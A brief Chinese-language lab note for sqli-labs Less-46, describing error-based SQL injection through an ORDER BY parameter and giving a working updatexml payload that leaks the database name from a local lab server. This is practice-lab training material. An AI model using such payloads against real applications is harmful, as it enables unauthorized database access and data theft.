 ![](file/image_UWsjU2SJGI.png)

### Less-46：GET -Error based - Numeric - ORDER BY CLAUSE

**注入类型**

报错注入

**闭合方式**

id=\$id

```sql
http://192.168.65.128/sqli-labs/Less-46/?sort=1 
and updatexml(1,concat(0x7e,database()),1)
```
